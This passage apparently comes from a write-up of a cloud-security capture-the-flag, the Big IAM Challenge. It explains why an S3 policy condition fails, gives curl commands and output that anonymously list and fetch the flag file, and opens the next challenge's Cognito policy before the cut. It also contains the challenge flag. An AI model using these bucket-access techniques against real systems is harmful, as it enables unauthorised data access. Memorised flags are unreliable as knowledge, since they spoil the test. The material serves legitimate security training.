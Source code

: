 ```json
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

## Solution

As long as the prefix is files/* and the user arn is arn:aws:iam::133713371337:user/admin, the policy permits anyone to list the objects and download them from the bucket thebigiamchallenge-admin-storage-abf1321.


```bash
> curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>thebigiamchallenge-admin-storage-abf1321</Name><Prefi
x>files/</Prefix><Marker></Marker><MaxKeys>1000</MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>files/flag-as-admin.t
xt</Key><LastModified>2023-06-07T19:15:43.000Z</LastModified><ETag>"e365cfa7365164c05d7a9c209c4d8514"</ETag><Size>42</Size><S
torageClass>STANDARD</StorageClass></Contents><Contents><Key>files/logo-admin.png</Key><LastModified>2023-06-08T19:20:01.000Z
</LastModified><ETag>"c57e95e6d6c138818bf38daac6216356"</ETag><Size>81889</Size><StorageClass>STANDARD</StorageClass></Conten
ts></ListBucketResult>
> curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt"
{wiz:principal-arn-is-not-what-you-think}
> 
```

---
---

## [Challenge 5 - Do I know you?](https://bigiamchallenge.com/challenge/5)

### We configured AWS Cognito as our main identity provider. Let's hope we didn't make any mistakes.


IAM POLICY

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "mobileanalytics:PutEvents",
                "cognito-sync:*"
            ],
            "Resource": "*"
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
```